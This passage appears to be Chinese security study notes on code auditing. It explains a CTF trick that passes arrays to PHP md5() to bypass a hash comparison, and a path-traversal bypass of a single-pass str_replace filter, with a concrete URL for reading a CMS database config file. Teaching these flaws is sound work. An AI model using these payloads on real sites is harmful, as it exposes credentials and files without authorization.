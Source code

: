 97：a[ ]=1&b[ ]=2;   post传参  --- md5()不能加密数组，得到NULL

```php
include("flag.php");
highlight_file(__FILE__);
if (isset($_POST['a']) and isset($_POST['b'])) {
if ($_POST['a'] != $_POST['b'])            //a!=b
if (md5($_POST['a']) === md5($_POST['b'])) //但是md5(a)===md5(b)
echo $flag;
else
print 'Wrong.';
}
```

### 3.3.3.3 实践-代码审计-过滤缺陷-文件读取

全局搜索str_replace()过滤函数，发现：

str_replace(array('../','./'), '', $_GET['dir'])    //将'../'和'./'过滤掉，因为tr_replace函数特性，只过滤一次，不会迭代过滤，所以写成'.....///'过滤后是'../'

![](https://img2024.cnblogs.com/blog/1366557/202401/1366557-20240118154745063-24684890.png)

控制dir，可以任意读取文件。/include/thumb.php?dir=.....///http\.....//\config/config_db.php

![](https://img2024.cnblogs.com/blog/1366557/202401/1366557-20240118154531112-1959720482.png)
